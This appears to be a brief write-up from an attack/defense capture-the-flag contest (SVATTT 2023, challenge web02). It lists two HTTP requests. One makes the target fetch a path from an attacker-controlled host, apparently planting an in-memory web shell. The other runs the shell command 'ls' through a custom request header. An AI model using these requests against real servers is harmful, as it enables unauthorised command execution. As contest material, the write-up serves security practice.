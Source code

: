 # SVATTT 2023 - Attack/Defense - web02
web02 exploit script

Request 1: `GET /http://PUBLIC_IP:8082/tiktikboom`

![log](images/log.png)

Request 2:
```
GET /http://PUBLIC_IP:8082/memshell
User-Agent: 123
cmd4f: ls
```

![ls](images/ls.png)